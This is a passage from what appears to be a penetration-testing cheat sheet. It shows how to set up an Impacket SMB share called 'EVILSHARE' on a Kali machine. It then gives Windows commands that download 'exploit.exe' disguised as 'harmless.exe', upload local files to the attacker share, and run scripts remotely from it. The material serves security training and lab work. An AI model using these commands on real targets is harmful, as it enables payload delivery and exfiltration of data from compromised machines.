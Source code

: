 **Start instant local SMB server:**
```bash
# Impacket SMB server.
sudo smbserver.py EVILSHARE .

# With SMB2 support (experimental, but works fine)
sudo smbserver.py EVILSHARE . -smb2support

# With username/password restriction
sudo smbserver.py EVILSHARE . -username cerealman -password iloveyou
```

Like with the FTP server above, this will use the current directory as base directory for the share.

Install (on Kali): `sudo apt install impacket`

Without the Kali repositories you will have to manually install / download Impacket from their github. Link: https://github.com/SecureAuthCorp/impacket

### On Windows

After starting the SMB server on your Kali machine, on the Windows target you can just do (in CMD or powershell):

```default
# Download file
copy \\<your_kali_ip>\EVILSHARE\exploit.exe
copy \\<your_kali_ip>\EVILSHARE\exploit.exe C:\Temp\harmless.exe

# upload file:
copy localfile.txt \\<your_kali_ip>\EVILSHARE\localfile.txt
```
Incredibly easy.

You can execute scritps/binaries without even copying them:
```default
\\<your_kali_ip>\EVILSHARE\coolscript.bat

# script output here...
```

For completeness sake, you can also mount the share if you have the permissions:
```default
# mount CIFS
net use X: \\<your_kali_ip>\EVILSHARE

# dismount CIFS
net use X: /delete

# mount with username/password
net use X: \\<your_kali_ip>\EVILSHARE /user:[user] [password]
```

### On Linux
